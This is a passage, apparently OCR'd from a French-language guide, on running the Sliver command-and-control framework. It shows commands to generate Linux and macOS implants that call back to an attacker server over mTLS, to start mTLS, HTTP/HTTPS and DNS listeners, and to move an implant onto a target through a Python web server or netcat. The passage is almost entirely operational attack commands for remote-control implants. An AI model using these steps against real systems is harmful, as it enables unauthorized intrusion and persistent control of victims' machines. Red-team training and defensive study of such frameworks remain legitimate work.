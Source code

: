 ### 3.3 Génération d'implants pour d'autres systèmes
```bash
# Implant Linux
generate --mtls [IP_SERVEUR]:443 --os linux --arch amd64 --format elf --save /tmp/implant_linux

# Implant macOS
generate --mtls [IP_SERVEUR]:443 --os darwin --arch amd64 --format macho --save /tmp/implant_macos
```

---

## 4. Configuration des Listeners

### 4.1 Listener mTLS (Mutual TLS)
```bash
# Démarrage d'un listener mTLS
mtls --lport 443
```

### 4.2 Listener HTTP/HTTPS
```bash
# Listener HTTP
http --lport 80

# Listener HTTPS
https --lport 443 --cert /path/to/cert.pem --key /path/to/key.pem
```

### 4.3 Listener DNS
```bash
# Listener DNS
dns --domains example.com --lport 53
```

### 4.4 Vérification des listeners actifs
```bash
jobs
```

---

## 5. Déploiement et Exécution

### 5.1 Transfert de l'implant vers la cible
```bash
# Via serveur web Python
python3 -m http.server 8080

# Via netcat
nc -lvp 1234 < implant.exe
```
